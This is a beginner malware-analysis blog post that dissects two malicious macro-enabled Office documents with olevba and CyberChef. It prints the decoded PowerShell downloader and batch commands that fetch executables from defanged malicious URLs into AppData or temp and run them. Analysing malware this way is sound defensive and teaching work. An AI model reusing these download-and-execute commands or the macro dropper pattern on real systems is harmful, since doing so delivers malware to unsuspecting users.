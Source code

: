```yaml
---
layout: post
title: "Analyzing Macro enabled Office Documents"
image: "/images/msofficemacros/cover.png"
description: "How to analyze Macro enabled Office Documents"
tags: [Malware-Analysis, Reverse-Engineering] 
---
```

Experience Level required: beginner 

# Objectives

In this blog we will Learn how to analyze MS Office Macro enabled Documents.

{% highlight text %}
1st sample:
    8d15fadf25887c2c974e521914bb7cba762a8f03b1c97a2bc8198e9fb94d45a5
2nd sample:
    a9f8b7b65e972545591683213bb198c1767424423ecc8269833f6e784aa8bc99
{% endhighlight %}

# 1st Sample

Let's see the sample in Virus Total

![](/images/msofficemacros/image2.jpg)

37 of 63 security vendors detected this file as malicious. 

Let's open the file.

![](/images/msofficemacros/image1.jpg)

It uses a social engineering technique to persuade the user to enable the macros that lead to the infection of the user.

Let's see the macro code of the sample, I'll use olevba

{% highlight text %}
olevba "C:\Users\M4lcode\Desktop\xlm sample\8d15fadf25887c2c974e521914bb7cba762a8f03b1c97a2bc8198e9fb94d45a5.xlsm"
{% endhighlight %}
![](/images/msofficemacros/image3.jpg)

It has many suspicious functions, It also has base64 strings

![](/images/msofficemacros/image7.jpg)

Let's dump the macro code to a file to see it better

{% highlight text %}
olevba -c "C:\Users\M4lcode\Desktop\xlm sample\8d15fadf25887c2c974e521914bb7cba762a8f03b1c97a2bc8198e9fb94d45a5.xlsm" > dump.vba
{% endhighlight %}
Let's view the dumped file with notepad ++ (you can view it with any text editor software)

![](/images/msofficemacros/image4.jpg)

This function concatenates two strings, then reverses the result string and assigns it to **Prefix3**.

![](/images/msofficemacros/image5.jpg)

I'll use this python script to reverse the string

{% highlight text %}
def reverse_string(input_string):
    return input_string[::-1]

input_string = "cne- 1 niw- exe.llehsrewop\\0.1v\\llehSrewoPswodniW\\23metsyS\\swodniW\:C"
reversed_string = reverse_string(input_string)
print("Original string:", input_string)
print("Reversed string:", reversed_string)
{% endhighlight %}

![](/images/msofficemacros/image6.jpg)

**Prefix3** =
{% highlight text %}
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -win 1 -enc
{% endhighlight %}
Let's go to the next function

The function concatenates 8 base64 encoded strings and assigns it to **Prefix2**.

![](/images/msofficemacros/image8.jpg)

I'll use cyberchef to decode the strings

![](/images/msofficemacros/image9.jpg)

**Prefix2** =
{% highlight text %}
$ProcName = "Ktaqftbffhqhoxzyblssi.exe";
(New-Object System.Net.WebClient).DownloadFile("hxxps[://]www[.]qqqformula[.]co[.]za/works/RICH[.]pif","$env:APPDATA\$ProcName");
Start-Process ("$env:APPDATA\$ProcName")
{% endhighlight %}

Let's go to the next function

![](/images/msofficemacros/image10.jpg)

It concatenates strings

**Prefix1** =
{% highlight text %}
start /MIN
{% endhighlight %}

Let's go to the last function

![](/images/msofficemacros/image11.jpg)

It concatenates **Prefix1**, **Prefix3** and **Prefix2** and print the result in a .bat file named "Bixkcozkkemqyslgmpvwuri.bat" then it runs the file

The resulted .bat file will be:
{% highlight text %}
start /MIN C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe  - win 1  - enc $ProcName = "Ktaqftbffhqhoxzyblssi.exe";
(New - Object System.Net.WebClient).DownloadFile("hxxps[://]www[.]qqqformula[.]co[.]za/works/RICH[.]pif", "$env:APPDATA\$ProcName");
Start - Process ("$env:APPDATA\$ProcName")
{% endhighlight %}

This script runs powershell script to download file from "hxxps[://]www[.]qqqformula[.]co[.]za/works/RICH[.]pif" to the current user's AppData directory with name "Ktaqftbffhqhoxzyblssi.exe" and executes it.

# 2nd Sample

32 of 60 security vendors detected this file as malicious.

![](/images/msofficemacros/image12.jpg)

Let's open the sample

![](/images/msofficemacros/image13.jpg)

It also employs a social engineering technique to convince the user to enable macros, which then leads to the user being infected.

Let's see its macro code

{% highlight text %}
olevba C:\Users\M4lcode\Desktop\ee6d2f06ce4476370cb830acb3890dca.xls
{% endhighlight %}

![](/images/msofficemacros/image14.jpg)

It uses **wscript** language and base64 encoding

Let's dump it to file
{% highlight text %}
olevba -c C:\Users\M4lcode\Desktop\ee6d2f06ce4476370cb830acb3890dca.xls > dump.vba
{% endhighlight %}
![](/images/msofficemacros/image15.jpg)

Let's try to decode this strings

![](/images/msofficemacros/image16.jpg)

{% highlight ps1 %}

$fdsfsdf = "fsfdghfddfgh";
(NEw-objEct `N`e`T`.`W`e`B`C`l`i`e`N`T`).DownLoAdfIlE('hxxp[://]suyashcollegeofnursing[.]com/language/Don163/CryptedFile163[.]exe', "$ENv:temp\jfcbvept.exe");
Start "$ENv:temp\jfcbvept.exe";
\$fdsfsdf = "fsfdghfddfgh";

{% endhighlight %}
This powershell script is downloading a file from "hxxp[://]suyashcollegeofnursing[.]com" to **temp** directory with name "jfcbvept.exe" then it starts it

CreateObject("Wscript.Shell") return is assigned to **zKShMevSa**

![](/images/msofficemacros/image17.jpg)

So **zKShMevSa** acts like **Wscript.Shell** and **zKShMevSa**.Run = Wscript.Shell.Run.

It's clear now **Wscript.Shell.Run** executes the powershell script that downloads the malware from "hxxp[://]suyashcollegeofnursing[.]com" to **temp** directory with name "jfcbvept.exe" then it executes it.

This blog is authored by **Mostafa Farghaly(M4lcode)**.